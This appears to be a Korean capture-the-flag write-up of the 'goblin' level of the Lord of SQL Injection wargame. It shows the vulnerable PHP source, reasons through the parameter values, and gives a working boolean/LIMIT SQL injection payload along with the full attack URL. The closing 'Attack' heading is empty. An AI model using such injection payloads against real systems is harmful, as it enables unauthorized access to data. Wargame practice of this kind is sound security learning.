


# **LOS goblin**

##  **Keys**
>php source
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```
`id` 값이 `guest` 로 고정되고 `no` 값이 테이블 내에 `id` 값과 일치 하다면 `hi $id `를 출력한다. 우선 `no` 에 무작위로 값을 대입해보겠다.
+ no = 0


+ no = 1


아마 `no = 0` 이 `admin` 이고, `no = 1` 이 `guest` 인 것같다.  
쿼리에 0 or 1 을 넣어 참이 되는지 확인해 보겠다.

+ no = 0 or 1


값이 참이 된다. 따라서 `LIMIT` 를 이용해서 `admin` 값을 추출하면 해결된다. 

**※ LIMIT**  
LIMIT a,b  
a 번 인덱스 쿼리부터 b 개 만큼 출력하겠다는 의미


##  **Query**
>Query
```php
select id from prob_goblin where id='guest' and no=0 or 1 limit 1,1
```

>Input value
```
http://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=0%20or%201%20limit%201,1
```

##  **Attack**
